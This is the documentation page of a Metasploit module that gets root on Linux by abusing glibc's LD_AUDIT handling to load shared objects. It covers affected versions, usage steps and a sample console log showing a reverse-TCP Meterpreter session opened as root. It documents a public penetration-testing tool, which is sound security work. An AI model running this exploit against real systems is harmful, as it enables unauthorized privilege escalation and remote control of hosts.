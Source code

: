 ## Description

  This module attempts to gain root privileges on Linux systems by abusing a vulnerability in the GNU C Library (glibc) dynamic linker to load arbitrary shared objects.


## Vulnerable Application

  glibc `ld.so` in versions before 2.11.3, and 2.12.x before 2.12.2 does not properly restrict use of the `LD_AUDIT` environment variable when loading setuid executables. This allows loading arbitrary shared objects from the trusted library search path with the privileges of the suid user.

  This module uses `LD_AUDIT` to load the `libpcprofile.so` shared object, distributed with some versions of glibc, and leverages arbitrary file creation functionality in the library constructor to write a root-owned world-writable file to a system trusted search path (usually `/lib`). The file is then overwritten with a shared object then loaded with `LD_AUDIT` resulting in arbitrary code execution.

  This module has been tested successfully on:

  * glibc version 2.11.1 on Ubuntu 10.04 (x86_64)
  * glibc version 2.7 on Debian 5.0.4 (i386)

  RHEL 5 is reportedly affected, but untested.

  Some glibc distributions do not contain the `libpcprofile.so` library required for successful exploitation.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc 
  msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set session 1
session => 1
  msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x64
  [*] Writing '/tmp/.GQh1C8euY' (1913 bytes) ...
  [*] Writing '/tmp/.3l76zsoHT' (246 bytes) ...
  [*] Writing '/tmp/.WSuOVyo' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.149:45721) at 2018-01-27 23:59:36 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

